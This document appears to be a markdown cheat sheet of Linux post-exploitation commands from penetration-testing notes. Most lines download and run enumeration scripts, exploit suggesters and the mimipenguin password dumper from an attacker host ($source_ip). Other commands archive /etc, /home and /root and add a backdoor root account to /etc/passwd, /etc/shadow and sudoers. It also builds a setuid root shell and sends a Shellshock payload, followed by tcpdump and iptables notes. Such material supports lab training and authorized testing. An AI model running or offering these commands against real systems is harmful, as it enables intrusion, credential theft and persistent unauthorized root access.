 
# Linux

## Enumeration Scripts
```
wget http://$source_ip/tools_linux/lse.sh; bash lse.sh -l 1 | tee lse.sh.out
```
```
wget http://$source_ip/tools_linux/LinEnum.sh; bash LinEnum.sh | tee LinEnum.sh.out
```
```
wget http://$source_ip/tools_linux/linpeas.sh; bash linpeas.sh | tee linpeas.sh.out
```
```
wget http://$source_ip/tools_linux/linuxprivchecker.py; python linuxprivchecker.py | tee linuxprivchecker.py.out
```
```
wget http://$source_ip/tools_linux/linux-local-enum.sh; bash linux-local-enum.sh | tee linux-local-enum.sh.out
```
```
wget http://$source_ip/tools_linux/unix-privesc-check.sh; bash unix-privesc-check.sh | tee unix-privesc-check.sh.out
```
```
wget http://$source_ip/tools_linux/linux_security_test.sh; bash linux_security_test.sh | tee linux_security_test.sh.out
```
```
wget http://$source_ip/tools_linux/checksec; bash checksec --kernel | tee checksec.kernel.out
```
```
wget http://$source_ip/tools_linux/checksec; bash checksec --fortify-proc=1 | tee checksec.proc.out
```

## Process monitoring
```
wget http://$source_ip/tools_linux/pspy32; chmod +x pspy32; ./pspy32
```
```
wget http://$source_ip/tools_linux/pspy64; chmod +x pspy64; ./pspy64
```

## Exploit Suggesters
```
wget http://$source_ip/tools_linux/linux_kernel_exploiter.pl; perl linux_kernel_exploiter.pl | tee linux_kernel_exploiter.pl.out
```
```
wget http://$source_ip/tools_linux/Linux_Exploit_Suggester.pl; perl Linux_Exploit_Suggester.pl | tee Linux_Exploit_Suggester.pl.out
```
```
wget http://$source_ip/tools_linux/linux-exploit-suggester-2.pl; perl linux-exploit-suggester-2.pl | tee linux-exploit-suggester-2.pl.out
```
```
wget http://$source_ip/tools_linux/linux-exploit-suggester.sh; bash linux-exploit-suggester.sh | tee linux-exploit-suggester.sh.out
```

## Data Extraction
```
ifconfig -a; netstat -antp; arp -e; route -v; route -vn
```
```
tar -zcf linux_files.tar.gz /etc/* /home/* /root/* /var/www/* /var/log/*
```
Recursive search:
```
grep -rnwl '/path/to/somewhere/' -e "pattern"
```

## Password Dumping
```
wget http://$source_ip/tools_linux/mimipenguin_2.0/mimipenguin.py; python mimipenguin.py | tee mimipenguin.py.out
```
```
wget http://$source_ip/tools_linux/mimipenguin_2.0/mimipenguin.sh; bash mimipenguin.sh | tee mimipenguin.sh.out
```

## Persistance
```
sudo echo "amxuser ALL=(ALL) ALL" >> /etc/sudoers
```
```
/usr/sbin/useradd -p 'openssl passwd -1 amxpass' amxuser 
```
```
/usr/sbin/useradd -p 'openssl passwd -1 -salt AbCD4536 amxpass' amxuser 
```
```
echo amxpass | passwd amxuser --stdin
```
```
echo 'amxuser::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
```
echo 'amxuser:x:0:0:root:/root:/bin/bash' >>/etc/passwd
echo 'amxuser:$1$ozUCi1Me$rBG3vK5.jZUScy39PSVtM1:14798:0:99999:7:::' >>/etc/shadow
```

## Exploit 
```
echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c; gcc privsc.c -o privsc
```

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c
sudo chown root:root /tmp/setuid
sudo chmod 4755 /tmp/setuid
```

Shellshock
```
curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://$target/cgi-bin/admin.cgi
```
## Network

Grep IPs
```
grep -oE "[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}"
```

Using -X to output raw traffic
```
tcpdump -nX -r password_cracking_filtered.pcap | grep -A10 GET
```

Extract IP addresses from pcap
```
tcpdump -n -r dump.pcap | awk -F" " '{print $3}' | sort -u | head`
```

Filter for http requests
```
tcpdump -A -s 0 'tcp port 10443 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf>>2)) != 0)' -i eth0
```

Filter destination host
```
tcpdump -n dst host $target -r password_cracking_filtered.pcap
```

Filter for source host
```
tcpdump -n src host $target -r password_cracking_filter
```

Filter port
```
tcpdump -n port 81 -r password_cracking_filtered.pcap
```

Extract only ACK and PUSH packets
```
tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap
```

Create traffic counter for specific net
```
iptables -N subnet_scan
iptables -A INPUT -d 10.11.1.0/24 -j subnet_scan
iptables -vL INPUT
```

Packet and byte counter using iptables
```
#!/bin/bash

# Reset counters and iptables rules
iptables -Z && iptables -F

# Measure incoming traffic from lab machine
iptables -I INPUT 1 -s 192.168.1.23 -j ACCEPT

# Measure outgoing traffic to lab machine
iptables -I OUTPUT 1 -d 192.168.1.23 -j ACCEPT
```
```
watch -n 1 iptables -nvL
```
